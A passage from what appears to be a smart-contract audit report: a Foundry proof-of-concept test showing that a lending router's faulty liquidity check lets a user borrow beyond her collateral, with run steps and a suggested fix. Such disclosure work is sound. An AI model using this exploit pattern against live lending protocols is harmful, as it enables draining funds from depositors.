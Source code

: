 ```solidity
        lendStorage.underlyingToLToken[address(underlyingToken)] = lToken;

        // Mint and supply for Alice
        vm.startPrank(alice);
        underlyingToken.mint(alice, SUPPLY_AMOUNT);
        underlyingToken.approve(address(coreRouter), SUPPLY_AMOUNT);
        coreRouter.supply(SUPPLY_AMOUNT, address(underlyingToken));
        vm.stopPrank();
    }

    function testIncorrectLiquidityCheck() public {
        // First borrow: 1000 USDC
        vm.startPrank(alice);
        coreRouter.borrow(BORROW_AMOUNT_FIRST, address(underlyingToken));
        vm.stopPrank();

        // Second borrow: 500 USDC
        vm.startPrank(alice);
        coreRouter.borrow(BORROW_AMOUNT_SECOND, address(underlyingToken));
        vm.stopPrank();

        // Verify undercollateralized state
        uint256 totalBorrow = BORROW_AMOUNT_FIRST + BORROW_AMOUNT_SECOND;
        uint256 collateralValue = (SUPPLY_AMOUNT * 0.8e18) / 1e18;
        assertGt(totalBorrow, collateralValue, "Total borrow should exceed collateral value");
    }
}
```

### Running the PoC

1.  Save the PoC as `IncorrectLiquidityCheckPoC.sol` in a Foundry project’s `test` directory.
2.  Run: `forge test --match-path test/IncorrectLiquidityCheckPoC.sol -vvvv`.
3.  The test demonstrates that Alice can borrow **1,500 USDC** against collateral that only supports up to **1,280 USDC**, confirming the undercollateralization.

-----

## Mitigation

Update the liquidity check to compare the total collateral against the total borrow amount, including the new borrow.

### Suggested Fix

```solidity
// Correct the liquidity check
require(collateral >= borrowed, "Insufficient collateral");
```

Here, `borrowed` should represent the total borrow amount across all assets, including the hypothetical new borrow, as returned by `getHypotheticalAccountLiquidityCollateral`.
